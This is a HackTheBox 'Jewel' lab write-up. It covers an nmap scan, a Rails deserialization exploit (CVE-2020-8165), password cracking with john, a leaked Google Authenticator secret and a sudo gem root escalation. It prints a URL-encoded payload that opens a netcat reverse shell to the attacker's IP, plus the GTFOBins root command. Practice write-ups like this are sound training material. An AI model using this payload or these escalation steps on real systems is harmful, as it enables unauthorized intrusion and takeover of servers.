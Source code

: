 ```yaml
---
title: HackTheBox Jewel Writeup
published: true
---
```


![](https://i.ibb.co/Q9tCD1K/logo.png)

# []()Methodlogy

* Nmap Scan
* Enumerating the web service
* found a version of ruby and exploit of it.
* server side template injection exploitation
* found the password of user bill in /var/backup
* found the secret token of Google Authenticator
* using sudo -l leads us to final part!.

# []()Nmap Scan

> **as always, i’ll do nmap scan to find out which services running in this machine, and i found these services.**

* **22 for ssh service.**
* **8000 for http**
* **8080 for nginx**

> **nmap -Pn -sC -sV -oN scan.txt 10.10.10.211**

```ruby

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 fd:80:8b:0c:73:93:d6:30:dc:ec:83:55:7c:9f:5d:12 (RSA)
|   256 61:99:05:76:54:07:92:ef:ee:34:cf:b7:3e:8a:05:c6 (ECDSA)
|_  256 7c:6d:39:ca:e7:e8:9c:53:65:f7:e2:7e:c7:17:2d:c3 (ED25519)
8000/tcp open  http    Apache httpd 2.4.38
|_http-generator: gitweb/2.20.1 git/2.20.1
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.38 (Debian)
| http-title: jewel.htb Git
|_Requested resource was http://jewel.htb:8000/gitweb/
8080/tcp open  http    nginx 1.14.2 (Phusion Passenger 6.0.6)
|_http-server-header: nginx/1.14.2 + Phusion Passenger 6.0.6
|_http-title: BL0G!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```

# []()Web Service Enumeration

* **let's add jewel.htb to our /etc/hosts and start enumerating the web service.**

> **i've found a basic blog on port 8080**

![](https://i.ibb.co/DVznD7p/basic-web-page.png)

* let's sign up and look deeper.

* here i'm logged in.

![](https://i.ibb.co/mXQQNP0/logged-in.png)

> **let's check the port 8000 now.**

![](https://i.ibb.co/D4QSrHB/port-8000.png)

> **it's a .git directory, let's check if there is any good things for us.**

> **click on .git and click on intial commit and yoi will find some Gem files so let's check it.**

![](https://i.ibb.co/CtdbzT0/gem-files.png)

> **in the gem file i found the ruby version**.

![](https://i.ibb.co/WxxZLx9/ruby-version.png)

> **and there's exploit for this version**

* Link: [Ruby On Rils](https://github.com/masahiro331/CVE-2020-8165)

![](https://i.ibb.co/qkHqBD3/ruby-exploit.png)

> **now we need to register a new user and put the payload in the username field to get a reverse shell.**

> **let's register a new user and click on profile and click edit and click save and intercept the request with burpsuite**.

![](https://i.ibb.co/JmP9ZpR/burp-suite.png)

> **put this payload in username filed with changing the IP address.**

* payload: **%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22U%60rm+%2Ftmp%2Ff%3Bmkfifo%20%2ftmp%2ff%3bcat%20%2ftmp%2ff%7c%2fbin%2fsh+-i+2%3e%261%7cnc+10.10.XX.XX+9001+%3e%2Ftmp%2ff%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T**

* **send the request twice and then refresh the web page.**

* **don't forget to start nc listener.**

![](https://i.ibb.co/R6NFYFC/reverse-shell.png)

* **nice!, we got a reverse shell now.**

# []()Privilege Escalation

> **after some eumeration i foudn the password of the user bill in /var/backups**

![](https://i.ibb.co/zQJw7YS/cat-comm.png)

![](https://i.ibb.co/pZgZn07/bill-pass.png)

* **let's crack the password now.**

> **sudo john --wordlist=/usr/share/wordlists/rockyou.txt pass**

![](https://i.ibb.co/CHt410K/pass-cracked.png)


> **when you try sudo -l you will see that it's request Verification code.**

![](https://i.ibb.co/93H4Hsy/verify.png)

> **there is a hidden file in home directory of bill which contain a secret token of google authenticator**.

![](https://i.ibb.co/1b18YVs/google-auth.png)

> **so we need to add the google authnticator [GAuth addon](https://chrome.google.com/webstore/detail/gauth-authenticator/ilgcnhelpchnceeipipijaljkblbcobl?hl=en) to google chrome and put the secret token in it and it will generate the OTP for us.**

![](https://i.ibb.co/PZ0CFYh/google-auth-add.png)

* **and here's the OTP**

![](https://i.ibb.co/k0pxQht/otp.png)

> **let's check "sudo -l" again**.

![](https://i.ibb.co/jkqsHQc/operation-not-per.png)

> **in this part i spend a day to identify my mistake but i didn't find anything until my friend told me this machine is all about sync.**

* **let's check the time and the date.**

![](https://i.ibb.co/rc1bfjz/timedatectl.png)

> **it's different date and time from my local date and time, so we need to change it.**

![](https://i.ibb.co/ggJ2g4Q/time-zone-change.png)

* **let' check again**

![](https://i.ibb.co/94QxWM0/bill-gem.png)

> **nice!, we will use gem command to get root ,let's open gtfobins now.**

![](https://i.ibb.co/FHpdq3F/gem-gtfobins.png)

> **sudo gem open -e "/bin/sh -c /bin/sh" rdoc**

![](https://i.ibb.co/q0dGffv/rooted.png)

* **rooted**

* **Thanks For Reading**

* **cheers!**

 <script src="https://www.hackthebox.eu/badge/103789"></script>





